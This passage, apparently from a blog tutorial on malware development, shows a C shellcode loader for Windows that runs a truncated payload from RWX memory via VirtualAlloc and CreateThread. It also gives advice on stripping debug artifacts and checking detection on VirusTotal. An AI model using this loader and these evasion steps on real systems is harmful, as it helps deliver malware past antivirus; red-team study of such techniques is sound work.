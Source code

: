 Shellcode can be also executed using char array to function pointer cast, as long as the memory region which the shellcode resides in is marked as executable.

The source code of such an application will look like this:
```c
##include <Windows.h>

void main()
{
	const char shellcode[] = "\xfc\xe8\x82 (...) ";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}
```

## Testing against VirusTotal
Before publishing our executable we should make sure to remove some artifacts from the binary. It is a good idea to discard any debugging symbols and information - this can be achieved by switching build configuration to "Release" and disabling generation of debug information (linker configuration in project properties).

In particular,  PDB (Program Database) path is embedded in the binary by default when using Visual Studio. PDB is used for storing debugging information and the file is stored in the same directory as the executable (or DLL) itself. This path can give away some sensitive infomation - just imagine something like `"C:\users\nameSurname\Desktop\companyName\clientName\assessmentDate\MaliciousApp\Release\app.exe"`.

First let's see what does VirusTotal think about the shellcode:

![VT shellcode](../images/2020-03-30-Malware_development_part_1/VT_shellcode.png)

How about the binary with embedded shellcode which gets executed right after start?

![VT binary](../images/2020-03-30-Malware_development_part_1/VT_binary.png)
